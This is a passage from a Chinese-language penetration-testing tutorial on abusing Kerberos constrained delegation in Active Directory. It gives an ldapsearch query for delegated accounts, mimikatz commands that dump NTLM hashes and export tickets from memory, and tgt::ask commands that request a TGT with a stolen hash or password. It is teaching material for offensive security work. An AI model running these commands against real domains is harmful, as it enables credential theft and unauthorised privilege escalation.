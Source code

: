 **查询约束委派的用户：**

`ldapsearch -LLL -x -H ldap://IP:389 -D "user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto`

#### [](#322-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E5%88%A9%E7%94%A8)3.2.2 约束委派的利用

##### [](#3221-%E5%B8%B8%E8%A7%81%E6%83%85%E5%86%B5)3.2.2.1 常见情况

已知在约束委派的情况下，服务用户只能获取某个用户或者主机的服务 ST，只能用模拟用户访问特定的服务，是无法获取用户的 TGT 的，如果能够获得到开启了约束委派的服务的用户的明文密码或者 hash 就可以伪造 S4U 的请求，进而伪造服务用户以任意账户的权限访问服务的 ST。

**先抓出主机账户的 NTLM Hash 值：**

`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126143432.png-water_print](assets/1699409170-cbd218d816ef6d8fa9c85caf8628e51e.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126143432.png-water_print")

**申请 TGT：**

信息

如果拥有服务用户登录的主机权限，可以用 `mimikatz` 直接从内存中把服务用户的 TGT dump 出来，可以跳过申请 TGT 这个步骤，直接用 mimikatz 导出 TGT：

`mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit`

NTLM Hash 和密码都可以：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>tgt::ask /user:win7$ /domain:pentest.com /ntlm:<抓取到的哈希><br>tgt::ask /user:win7$ /domain:pentest.com /password:12345<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126145859.png-water_print](assets/1699409170-1b04c4aa346319f76fc8f4fe6507d2c1.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210126145859.png-water_print")
